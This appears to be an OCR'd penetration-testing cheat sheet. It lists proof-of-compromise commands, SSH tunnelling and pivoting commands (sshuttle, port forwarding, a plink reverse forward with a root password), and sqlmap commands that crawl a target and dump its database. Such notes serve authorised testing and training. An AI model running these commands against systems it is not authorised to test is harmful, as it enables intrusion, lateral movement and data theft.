 
# Linux proof
` hostname && whoami && cat proof.txt && /sbin/ifconfig`


# Windows proof

` hostname && whoami.exe && type proof.txt && ipconfig /all`


# SSH Tunneling / Pivoting

# sshuttle

` sshuttle -vvr user@10.10.10.10 10.1.1.0/24`


# Local port forwarding

` ssh <gateway> -L <local port to listen>:<remote host>:<remote port>`


# Remote port forwarding

` ssh <gateway> -R <remote port to bind>:<local host>:<local port>`


# Dynamic port forwarding

` ssh -D <local proxy port> -p <remote port> <target>`


# Plink local port forwarding

` plink -l root -pw pass -R 3389:<localhost>:3389 <remote host>`


# SQL Injection

 # sqlmap crawl
` sqlmap -u http://10.10.10.10 --crawl=1`

 # sqlmap dump database
` sqlmap -u http://10.10.10.10 --dbms=mysql --dump`
